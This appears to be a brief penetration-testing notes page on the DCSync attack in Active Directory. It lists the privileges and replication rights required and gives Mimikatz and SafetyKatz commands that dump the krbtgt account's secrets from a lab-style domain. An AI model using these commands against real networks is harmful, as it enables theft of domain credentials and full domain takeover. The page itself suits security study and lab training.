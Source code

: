 # DC Sync

Need **Domain Admin**, **Enterprise Admin** or **Domain Controller** privilege to make this attack happen.

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 

SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}

For DCsync to work below two are the main permissions that are needed:

* Replicating Directory Changes
* Replicating Directory Changese All
